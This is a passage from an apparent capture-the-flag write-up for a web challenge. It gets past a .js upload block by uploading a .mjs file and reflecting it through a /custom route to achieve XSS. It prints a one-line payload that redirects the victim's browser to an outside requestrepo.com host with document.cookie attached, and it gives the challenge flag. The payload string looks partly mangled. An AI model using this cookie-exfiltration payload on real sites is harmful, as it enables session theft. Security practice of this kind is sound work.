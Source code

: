 Which we will use to achieve XSS. Even if .js is not allowed, .mjs is, and it will have the same Content-Type as .js. We can leverage this to achieve XSS.

**lol.mjs:**
```js
location = "//06sjnkhn.requestrepo.com/?flag= [invalid URL removed]" + document.cookie;
```

Then, we can report to the URL http://localhost:8080/custom?text=/public/uploads/local-lol.mjs and get the flag:
![coolupload](/assets/images/posts/coolupload.png)

**Explanation**

The provided code demonstrates a vulnerable web application that allows for a Cross-Site Scripting (XSS) attack. Here's how it works:

1. **File Upload Restriction:** The application attempts to prevent the direct upload of JavaScript files (.js)
2. **Content-Type Misinterpretation:** The `nosniff` header is meant to prevent browsers from guessing file types, but it's not perfect.
3. **Vulnerable Custom Route:** The `/custom` route takes user input and directly reflects it within a `<script>` tag. Insufficient sanitization makes it vulnerable.
4. **XSS Payload:** The attacker uploads a file named `lol.mjs`. Modern browsers execute `.mjs` files as JavaScript. The payload redirects the victim's browser to an external site, sending the victim's cookies.


### Flag

`CTF{f7a7e2c537476176b0763263c6ff9c89c6d111c43955f876f61c866dcbff6361}`